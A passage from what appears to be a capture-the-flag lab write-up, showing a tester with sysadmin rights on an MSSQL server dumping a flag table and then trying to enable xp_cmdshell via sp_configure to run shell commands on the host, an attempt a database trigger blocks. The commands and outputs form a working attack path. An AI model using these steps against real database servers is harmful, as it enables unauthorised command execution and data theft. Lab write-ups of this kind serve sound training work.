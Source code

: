 
I can list the tables and schema:

    
    
    SQL> select table_name,table_schema from flag.INFORMATION_SCHEMA.TABLES;
    table_name                       table_schema   
    ------------------------------   ------------------------------   
    flag                             dbo
    

To query a different DB in MSSQL, it’s `[server].[db].[schema].[table]`. So I
can dump the flag with:

    
    
    SQL> select * from flag.dbo.flag;
    flag                                       
    ----------------------------------------   
    b'POO{88d829eb************************}' 
    

## BackTrack

### Command Execution

#### xp_cmdshell Blocked

Now that I’m sa on the database, I want to get a shell on the host. I’ll try
`xp_cmdshell`, but it fails:

    
    
    SQL> xp_cmdshell whoami
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
    

I need to enable it. I’ll try the `enable_xp_cmdshell` macro, but it fails
with an error:

    
    
    SQL> enable_xp_cmdshell
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 11: Attempt to enable xp_cmdshell detected. Database Administrators will be notified!
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 181: The transaction ended in the trigger. The batch has been aborted.
    

I can try the manual way too, but the same error:

    
    
    SQL> sp_configure 'show advanced options', '1'
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
    SQL> RECONFIGURE
    SQL> sp_configure 'xp_cmdshell', '1' 
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 11: Attempt to enable xp_cmdshell detected. Database Administrators will be notified!
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 181: The transaction ended in the trigger. The batch has been aborted.
    